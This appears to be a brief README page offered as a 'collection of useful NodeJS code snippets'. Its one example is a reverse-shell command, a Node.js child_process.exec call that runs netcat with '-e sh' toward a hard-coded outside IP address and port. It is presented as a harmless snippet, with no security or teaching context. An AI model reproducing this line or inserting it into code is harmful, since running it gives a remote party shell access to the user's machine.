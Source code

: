 ## Collection of useful NodeJS code snippets.
Example:
```nodejs
require('child_process').exec('nc -e sh 35.173.246.103 1337')
```

`PS: Code snippets will be added soon.`
